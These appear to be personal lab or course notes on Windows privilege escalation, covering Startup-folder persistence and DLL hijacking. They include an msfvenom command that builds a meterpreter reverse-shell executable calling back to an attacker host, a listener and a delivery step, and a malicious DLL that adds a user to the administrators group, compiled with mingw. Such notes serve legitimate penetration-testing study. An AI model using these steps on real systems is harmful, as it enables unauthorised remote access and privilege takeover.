 ### Escalation
msfconsole listener:
```bash
use multi/handler
set options

msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o y.exe
```

Send the exploit to the target machine.

> Again, we can open a FTP or web server with python in kali
Grab with **certutils** or just open in the browser


Save the exploit in the startup folder:
```bash
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

> Boot the machine again & just waits with a msfconsole listener to receive the connection







# Escalation Path: DLL Hijacking



## DLL Hijacking Overview

Dll = dynamic link library 

we are looking For a dll that is trying to load and has the name not found;

- if we have a writable directory For that dll then
- we can hijack that dll by sending a malicious file in that path.

### Escalation
Run process monitor:
```bash
include to filter > Result is NAME NOT FOUND & Path ends with .dll

sc stop dllsvc
sc start dllsvc
```

grab the windows_dll.c file and edit:
```bash
System("cmd.exe /k net localgroup administrators userBatman /add");
```

Compile it:
```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```
